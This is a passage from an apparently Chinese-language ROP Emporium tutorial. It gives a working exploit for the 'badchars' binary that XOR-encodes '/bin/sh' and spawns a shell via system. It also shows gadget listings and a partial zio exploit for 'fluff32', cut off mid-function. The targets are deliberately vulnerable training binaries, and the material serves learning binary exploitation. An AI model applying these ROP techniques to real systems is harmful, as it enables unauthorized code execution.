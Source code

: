 ```python

payload  = "A"*40
payload += p64(pop_r12_r13)
payload += binsh
payload += p64(data_addr)
payload += p64(mov_r13_r12)

for i in range(len(binsh)):
    payload += p64(pop_r14_r15)
    payload += p64(xor_byte)
    payload += p64(data_addr + i)
    payload += p64(xor_r15_r14b)

payload += p64(pop_rdi)
payload += p64(data_addr)
payload += p64(system_plt)

io = process('./badchars')
io.recvuntil('>')
io.sendline(payload)
io.interactive()
```

### fluff32

这个练习与上面没有太大区别，难点在于我们能找到的 gadgets 不是那么直接，有一个技巧是因为我们的目的是写入字符串，那么必然需要 `mov [reg], reg` 这样的 gadgets，我们就从这里出发，倒推所需的 gadgets。

```text
$ ropgadget --binary fluff32 --only "mov|pop|ret|xor|xchg"
...
0x08048693 : mov dword ptr [ecx], edx ; pop ebp ; pop ebx ; xor byte ptr [ecx], bl ; ret
0x080483e1 : pop ebx ; ret
0x08048689 : xchg edx, ecx ; pop ebp ; mov edx, 0xdefaced0 ; ret
0x0804867b : xor edx, ebx ; pop ebp ; mov edi, 0xdeadbabe ; ret
0x08048671 : xor edx, edx ; pop esi ; mov ebp, 0xcafebabe ; ret
```

我们看到一个这样的 `mov dword ptr [ecx], edx ;`，可以想到我们将地址放进 `ecx`，将数据放进 `edx`，从而将数据写入到地址中。payload 如下：

```python
from zio import *

system_plt   = 0x08048430
data_addr    = 0x0804a028

pop_ebx      = 0x080483e1
mov_ecx_edx  = 0x08048693
xchg_edx_ecx = 0x08048689
xor_edx_ebx  = 0x0804867b
xor_edx_edx  = 0x08048671

def write_data(data, addr):
    # addr -> ecx
    payload  = l32(xor_edx_edx)
    payload += "BBBB"
    payload += l32(pop_ebx)
    payload += l32(addr)
    payload += l32(xor_edx_ebx)
    payload += "BBBB"
    payload += l32(xchg_edx_ecx)
    payload += "BBBB"

    # data -> edx
    payload += l32(xor_edx_edx)
```